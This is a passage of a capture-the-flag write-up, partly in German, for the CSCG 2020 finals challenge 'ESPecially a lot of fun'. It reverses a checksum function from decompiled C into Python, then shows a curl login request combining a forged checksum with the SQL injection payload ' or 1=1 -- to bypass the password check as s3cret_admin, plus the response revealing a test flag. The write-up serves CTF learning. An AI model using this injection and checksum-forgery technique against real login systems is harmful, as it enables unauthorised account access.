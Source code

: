```
  int iVar1;
  int iVar2;
  int in_a10;
  int iVar3;
  
  iVar1 = 0;
  iVar3 = 0;
  while (iVar1 < in_a10) {
    iVar2 = (uint)(byte)param_1[iVar1] * 0x735 * iVar1;
    iVar1 = iVar1 + 1;
    iVar3 = iVar3 + iVar2;
  }
  return iVar3;
}
```

In Python:
```
def calcChecksum(data):
    a12 = 0
    for i in range(0, len(data)):
       a12 += ord(data[i])*0x735*i
    return a12
```

Damit kann man eine gültige Checksum für `s3cret_admin` berechnen und den Passwort-Check bypassen:
```
theuser@DESKTOP-IHD33QF:~/main/cscg20-finals/challenges/especially-a-lot-of-fun/solution$ curl -X POST http://192.168.178.75/login --data "username=s3cret_admin&password=john123' or 1=1 -- f&checksum=c14445"
<!DOCTYPE html>
<html>
  <head>
    <script src="src/jquery-3.5.1.slim.min.js"></script>
    <script src="src/bootstrap.bundle.min.js"></script>
    <link rel="stylesheet" type="text/css" href="src/bootstrap.min.css" />

    <script src="src/custom.js"></script>
  </head>

  <body>
    <div class="jumbotron jumbotron-fluid">
      <div class="container">
        <h1 class="display-4">ESPecially a lot of fun</h1>
        <p class="lead">Notes of user: s3cret_admin</p>
      </div>
    </div>
    <div class="container">
      <div class="card"><div class="card-body">Flag: CSCG{TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG}</div></div>
    </div>
  </body>
</html>
```


